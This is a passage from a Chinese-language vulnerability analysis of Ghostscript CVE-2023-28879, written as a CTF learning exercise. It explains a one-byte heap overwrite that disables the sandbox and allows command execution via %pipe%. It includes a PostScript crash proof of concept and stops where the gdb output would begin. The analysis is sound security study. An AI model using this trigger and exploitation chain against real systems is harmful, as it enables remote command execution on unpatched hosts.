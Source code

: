 

# Artifex Software Ghostscript漏洞分析之CVE-2023-28879 - 先知社区

Artifex Software Ghostscript漏洞分析之CVE-2023-28879

- - -

# 漏洞分析之CVE-2023-28879

realworld ctf 体验赛上出了一道利用CVE-2023-28879的题目，借这个机会复现学习一下这个CVE

## 漏洞描述

Artifex Software Ghostscript是美国Artifex Software公司的一款开源的PostScript解析器。

Artifex Ghostscript 10.01.0及之前版本中，如果写入缓冲区的数据比总长度少一个字节，则尝试写入转义字符，导致两个字节被写入。攻击者可通过泄露堆中path\_control\_active地址，覆写无效字节以禁用沙箱，进而通过PostScript的%pipe%执行任意命令。该漏洞影响 BCPEncode, BCPDecode, TBCPEncode, TBCPDecode组件。

ImageMagic等程序在使用ghostscript处理用户可控的PostScript文件时，可能导致远程命令执行。

## 影响范围

Ghostscript@(-∞, 10.01.1)

ghostscript@(-∞, 10.0.0~dfsg-11)

## 漏洞分析

参考文章：[Shell in the Ghost：Ghostscript CVE-2023-28879 文章 - Almond Offensive 安全博客](https://offsec.almond.consulting/ghostscript-cve-2023-28879.html)

首先根据文章有如下 `PostScript` 导致 `Ghostscript` 崩溃

```plain
(){} /zlibEncode filter /BCPEncode filter /LZWEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCII85Encode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /ASCII85Encode filter /ASCII85Encode filter /ASCIIHexEncode filter /PSStringEncode filter /ASCIIHexEncode filter /ASCIIHexEncode filter /BCPEncode filter /ASCIIHexEncode filter /PSStringEncode filter /MD5Encode filter closefile
```

在 gdb 中，崩溃如下所示：
